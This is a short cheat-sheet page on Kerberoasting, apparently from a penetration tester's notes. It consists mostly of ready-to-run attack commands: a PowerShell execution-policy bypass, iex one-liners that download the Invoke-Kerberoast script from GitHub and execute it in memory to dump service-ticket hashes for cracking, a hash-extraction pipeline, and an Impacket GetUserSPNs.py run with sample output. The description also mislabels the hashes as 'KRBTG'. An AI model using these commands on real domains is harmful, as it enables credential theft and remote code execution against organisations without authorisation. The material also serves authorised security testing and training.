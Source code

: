 ```yaml
---
title : "Kerberoasting"
# pre : ' '
description : "Abusing the kerberos protocol to gain KRBTG hashes to crack."
date : 2020-07-08T09:50:07+02:00
# hidden : true
# draft : true
weight : 0
# tags : ['']
---
```


## Kerberoasting

Abusing the kerberos protocol to gain KRBTG hashes to crack.

### Powershell

```powershell
Set-ExecutionPolicy -scope process -execution bypass
```

```powershell
iex((iwr https://raw.githubusercontent.com/justin-p/Empire/master/data/module_source/credentials/Invoke-Kerberoast.ps1).content);invoke-kerberoast -outputformat Hashcat | export-csv C:\temp\kerb_tickets.csv
```

One liner to extract hashcat ready hashes from `kerb_tickets.csv`.

```plain
cat kerb_tickets.csv | awk '{print $1}' | sed 's/"//g' | cut -d ',' -f2 > kerbs
```

Other method:

```powershell
iex (new-object Net.WebClient).DownloadString("https://raw.githubusercontent.com/EmpireProject/Empire/master/data/module_source/credentials/Invoke-Kerberoast.ps1")
Invoke-Kerberoast -OutputFormat <TGSs_format [hashcat | john]> | % { $_.Hash } | Out-File -Encoding ASCII <output_TGSs_file>
```

On SSL/TLS error:

```powershell
[Net.ServicePointManager]::SecurityProtocol = [Net.SecurityProtocolType]::Tls12
```

### GetUserSPNs.py - Impacket

```plain
$ GetUserSPNs.py -target-domain offsec.nl -request -outputfile out.log -dc-ip 10.10.10.10 offsec.nl/normal-user
Impacket v0.9.22.dev1+20200611.111621.760cb1ea - Copyright 2020 SecureAuth Corporation

Password:
ServicePrincipalName               Name               MemberOf                                                              PasswordLastSet             LastLogon                   Delegation
---------------------------------  -----------------  --------------------------------------------------------------------  --------------------------  --------------------------  ----------
SRV2016-DC/DC01.offsec.nl         DC01 [REDACTED]

$ cat out.log
$krb5tgs$23$*[REDACTED]
```
